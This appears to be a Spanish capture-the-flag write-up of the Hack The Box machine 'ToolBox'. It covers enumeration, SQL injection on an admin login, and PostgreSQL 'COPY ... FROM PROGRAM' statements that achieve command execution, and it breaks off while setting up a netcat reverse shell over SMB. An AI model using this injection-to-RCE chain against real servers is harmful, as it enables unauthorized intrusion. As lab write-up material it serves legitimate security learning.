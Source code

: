 ```yaml
---
title : Máquina|TOOLBOX|HTB|POSTGRESTSqlRCE|PIVOTING
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/ToolBox/ToolBox0.png" style="border-radius: 150px; width: 169px" alt="ToolBox logo">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Fácil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/339" style="color: lightblue;">Tool Box</a></p>
    </div>
</div>

<h2><font color="white"><center> # Tool Box</center></font></h2>

* Empezamos tirando una traza ICMP, y vemos que nos enfrentamos  a una maquina Linux.

<img src="imgs/ToolBox/ToolBox1.png">

* Posteriormente empezamos con la enumeración de servicio y version que corren bajo los puertos de esta maquina, como cosas relevantes: 
<center>[Ftp]21: docker-toolbox.exe</center>

<img src="imgs/ToolBox/ToolBox2.png">

* Vemos de que se trata el recurso compartido por ftp llamado docker-toolbox.exe empleando una session como anonymous.

<img src="imgs/ToolBox/ToolBox6.png">

* Empezamos conectarnos con openssl para ver la firma de certificado ssl, y nos encontramos con subdominios bajo esta maquina.
<center>admin.megalogistic.com</center>
<center>megalogistic.com</center>

<img src="imgs/ToolBox/ToolBox3.png">


* Procedemos a agregarlos en el /etc/hosts paraopenssl que apunte a la dirección IP de la maquina.

<img src="imgs/ToolBox/ToolBox4.png">

* Vemos mas información que nos puede listar crackmapexec.
<center>Maquina:   Windows</center>
<center>Arquitectura: 64 bts</center>
<center>Nombre: TOOLBOX </center>
<img src="imgs/ToolBox/ToolBox5.png">

* Se puede observer que le panel de login de admin.megalogistic.com es vulnerables a un ataque de inyección Sql

<img src="imgs/ToolBox/ToolBox7.png">

* Empezamos a usar Burpsuite para ver el trafico de salida y respuesta por parte del servidor.
<center>Win + r : Enviar al Repeter</center>

<img src="imgs/ToolBox/ToolBox8.png">


* Investigamos acerca de como inyectar código arbitrario para ello.

* Eliminación de tabla en el caso de que sea existente.

```sql
DROP TABLE IF EXIST cmd_exec;
```

* Creación de la tabla para la inyección de comando arbitrarios.

```sql
 CREATE TABLE cmd_exec(cmd_output text);
```

* Inyección de comandos

```sql
 COPY cmd_exec from PROGRAM 'whoami';
```

* Empezamos con la creación de la tabla.

<img src="imgs/ToolBox/ToolBox10.png">

* Empezamos con la ejecución del código para ello me comparto un recurso compartido por smb que va a tener el binario netcat para poder crearme una reverse Shell suponiendo que pues la maquina es windows.
<center>Creamos recurso un recurso compartido.</center>
<img src="imgs/ToolBox/ToolBox11.png">


